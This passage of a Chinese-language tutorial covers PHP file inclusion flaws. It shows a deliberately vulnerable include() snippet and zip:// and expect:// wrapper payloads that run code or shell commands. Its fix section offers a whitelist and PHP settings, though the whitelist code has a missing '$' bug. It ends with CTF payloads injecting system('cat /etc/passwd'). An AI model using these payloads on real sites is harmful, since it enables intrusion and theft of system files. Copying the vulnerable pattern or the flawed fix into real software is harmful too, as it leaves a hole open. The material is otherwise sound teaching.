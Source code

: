 > 注意：需要将#转换成URL编码：%23

代码示例如下：

```php
<?php
	$file=$_GET['file'];
	include($file);
?>
```

输入测试：`http://www.abc.com/xxx/file?file=zip://D:/phpstudy/www/.../test.png%23shell.php (zip必须是绝对路径)`
这样zip://就会将png当做zip压缩包进行解压，并且访问解压后的shell.php文件

## expect://伪协议

expect://伪协议用来执行系统命令，但是需要安装拓展
用法: `?file=expect://ls`

# 文件包含漏洞修复

## 代码配置

可以在代码层对文件包含进行过滤，设置包含的参数的白名单，假设网站只包含文件为index.php和admin.php
就可以定义好代码如下：

```php
<?php
    $filename=$_GET['filename'];
    switch ($filename) {
        case 'index':
        case 'admin':
            include('/var/www/html/'.filename.'.php');
            break;
        default:
            break;
    }
?>
```

## 服务器配置

- 修改PHP配置文件，将open_basedir的值设置为可以包含的特定目录，后面要加/，例如open_basedir=/var/www/html/
- 修改PHP配置文件，关闭allow_url_include

## CTF考题

ASSERT

```bash
view-source:http://192.168.88.129/index.php?page=./blog' and die(system('cat /etc/passwd')) or '
view-source:http://192.168.88.129/index.php?page=./blog' and die(show_source('/etc/passwd')) or '
```




-----
参考资料：

[PHP文件包含漏洞全面总结](https://www.cnblogs.com/Zeker62/p/15322771.html)

[php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)

[File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)